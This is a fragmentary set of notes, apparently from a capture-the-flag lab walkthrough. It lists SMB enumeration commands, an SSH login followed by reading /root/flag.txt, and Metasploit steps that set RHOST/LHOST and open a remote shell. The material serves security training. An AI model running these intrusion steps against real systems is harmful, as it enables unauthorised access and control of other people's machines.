 solved by not renaming it script, removing script.sh and then waiting

10
./enum4linux.pl -U
./enum4linux.pl -S
smbclient

11
	ssh cmnatic@
	cat /root/flag.txt

12
	MACHINE_IP
	db : version number, meterpreter

	msfconsole
	options
	set RHOST
	set LHOST
	set TARGETURI
	run
	shell

IP address : 10.8.130.100